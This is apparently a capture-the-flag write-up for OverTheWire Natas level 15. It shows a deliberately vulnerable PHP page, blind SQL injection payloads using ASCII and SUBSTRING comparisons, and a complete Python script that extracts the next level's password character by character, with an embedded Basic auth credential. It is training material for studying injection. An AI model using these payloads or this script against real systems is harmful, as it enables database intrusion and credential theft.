 # Level 15
Pushing things further, here we do Blind SQL injection. Also, we'll make a python script to do the same.

##  Quest
We are presented with a simple page that checks if a user exists or not.
![Level 15 Image](./images/Level15.png)

Backend code is similar to previous level with some important changes
```php
<?
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```
<br/>
## Solution
From the source code, we can see that<br/>
 - Again unsanitized user input is inserted into query.<br/>
 - Although no output is displayed after query execution, we can make use of blind SQL injection.<br/>
 - When query succeeds, we get _user exists_, and when it fails, we get _user doesn't exist_ msg. we'll leverage this behaviour<br/>
 - Additionally, we can see that there is a debug parameter, which displays query on screen.<br/>
 - Lastly, there is a users table with username and password column.<br/>

Here is what was done.
1. Firstly, check if user `natas16` exist, it does, and we want its password.
2. Below is a log from my local linux lab to make use of `ascii` and `substring` function to smuggle password.<br/>


```sql
# Testing query in Lab
# Our Sample table
mysql> select * from books;
+---------+--------------+-----------+----------+
| book_id | name         | author    | released |
+---------+--------------+-----------+----------+
|       1 | Big Magic    | Elizabeth |        1 |
|       2 | Brown Farm   | AK        |        0 |
|       3 | Malgudi Days | R.K.N     |        1 |
+---------+--------------+-----------+----------+
3 rows in set (0.00 sec)

# We compare first character of author name with ascii code  # Below is a successful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
+---------+-----------+-----------+----------+
| book_id | name      | author    | released |
+---------+-----------+-----------+----------+
|       1 | Big Magic | Elizabeth |        1 |
+---------+-----------+-----------+----------+
1 row in set (0.00 sec)

# Below is an unsuccessful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 70;
Empty set (0.00 sec)
```

Lets focus on second query
```sql
select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
```
`SUBSTRING(author, 1, 1)` refers to the first character and `ASCII` converts that first character to its ASCII code.
So, Above query will return a row if the ASCII code of first character of the name of author is equal to 69, i.e. E

Now we build our payload accordingly.<br/>
Our payload -> `GET /index.php?username=natas16" AND ASCII(SUBSTRING(password,1,1))=65;#&debug=true HTTP/1.1`
Just like above, we are checking if the first character of password of user natas16 has ascii code of 65 .i.e. its A<br/>

Below is screenshot of our failed attempt in Burp

![Level 15 solution](./images/Level15_solution.png)

Below is our successfull attempt, Now we know our password begins with word 'W', ascii code 87.

![Level 15.1 solution](./images/Level15.1_solution.png)

Now instead of doing every character one by one, we use Burp intruder. we manually change the `password(1,1)` -> `password(2,1)` for finding second character and so on. This process will repeat till we find all characters. Here password is 32 characters long. On 33rd attempt, intruder will not find any character and we know that we are done.

Intruder settings are shown below
![Level 15.2 solution](./images/Level15.2_solution.png)

Intruder Payload settings are below
![Level 15.3 solution](./images/Level15.3_solution.png)

Below is the screenshot of when we found the second password character.
![Level 14.4 solution](./images/Level15.4_solution.png)

We repeat this process 32 times to get the complete password for next Level. <br/>It took me about an hour to smuggle password char by char with Burp community addition, so i decided to write a script to do the same, just for the fun of it.
<br/>
This script does blind mysql injection till password is revealed
```python
 1 #!/usr/bin/env python3
 2
 3 import requests
 4
 5 headers = {'Authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=='}
 6 proxy = {'http': 'http://localhost:8080'}
 7
 8 password = ""
 9 pos = 1
10
11 while True:
12     if password:
13         payload = f'natas16" AND password = \'{password}\' ;#'
14         data = {'username': payload}
15         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers, proxies=proxy)
16         if response.status_code == 200  and "This user exists" in response.text:
17             print(f"\r{password}", end='', flush=True)
18             break
19
20     for i in range(33,128):
21         print(f"\r{password}{chr(i)}", end='', flush=False)
22         payload = f'natas16" AND ASCII(SUBSTRING(password,{pos},1)) = {i};#'
23         data = {'username': payload}
24         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers, proxies=proxy)
25         if response.status_code == 200:
26             if 'This user exists.' in response.text:
27                 password += chr(i)
28                 print(f"\r{password}{chr(i)}", end='', flush=True)
29                 #print(password)
30                 break
31             elif "This user doesn't exist" in response.text:
32                 continue
33             elif i == 127:
34                 break
35             else:
36                 print('Program flow should not reach here. Exiting')
37                 #return 2
38         else:
39             print(f"Status code: {response.status}")
40     pos += 1
41 # todo: refactor the code
```
<br/>

I Added a cool effect that displays the found characters and also searches for next character.

Here is the script in action
[![asciicast](https://asciinema.org/a/ZCwEXkII8MAP1uguwL5OJDLjN.svg)](https://asciinema.org/a/ZCwEXkII8MAP1uguwL5OJDLjN)

<img src="https://grey-fish.github.io/Natas/images/natas15.gif">
This was my longest writeup yet, time to rest.

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
